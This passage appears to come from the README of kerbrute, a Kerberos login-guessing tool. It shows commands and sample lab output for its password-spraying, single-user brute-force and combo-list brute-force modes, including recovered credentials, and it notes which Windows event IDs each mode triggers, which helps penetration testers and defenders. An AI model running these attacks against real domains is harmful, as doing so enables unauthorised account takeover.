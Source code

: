 ```
root@kali:~# ./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (43f9ca1) - 03/06/19 - Ronnie Flathers @ropnop

2019/03/06 21:37:29 >  Using KDC(s):
2019/03/06 21:37:29 >   pdc01.lab.ropnop.com:88

2019/03/06 21:37:35 >  [+] VALID LOGIN:  callen@lab.ropnop.com:Password123
2019/03/06 21:37:37 >  [+] VALID LOGIN:  eshort@lab.ropnop.com:Password123
2019/03/06 21:37:37 >  Done! Tested 2755 logins (2 successes) in 7.674 seconds
```

### Brute User
This is a traditional bruteforce account against a username. Only run this if you are sure there is no lockout policy! This will generate both event IDs [4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) and [4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

```
root@kali:~# ./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (43f9ca1) - 03/06/19 - Ronnie Flathers @ropnop

2019/03/06 21:38:24 >  Using KDC(s):
2019/03/06 21:38:24 >   pdc01.lab.ropnop.com:88

2019/03/06 21:38:27 >  [+] VALID LOGIN:  thoffman@lab.ropnop.com:Summer2017
2019/03/06 21:38:27 >  Done! Tested 1001 logins (1 successes) in 2.711 seconds
```

### Brute Force
This mode simply reads username and password combinations (in the format `username:password`) from a file or from `stdin` and tests them with Kerberos PreAuthentication. It will skip any blank lines or lines with blank usernames/passwords. This will generate both event IDs [4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) and [4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)
```
$ cat combos.lst | ./kerbrute -d lab.ropnop.com bruteforce -

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 05/11/19 - Ronnie Flathers @ropnop

2019/05/11 18:40:56 >  Using KDC(s):
2019/05/11 18:40:56 >   pdc01.lab.ropnop.com:88
```
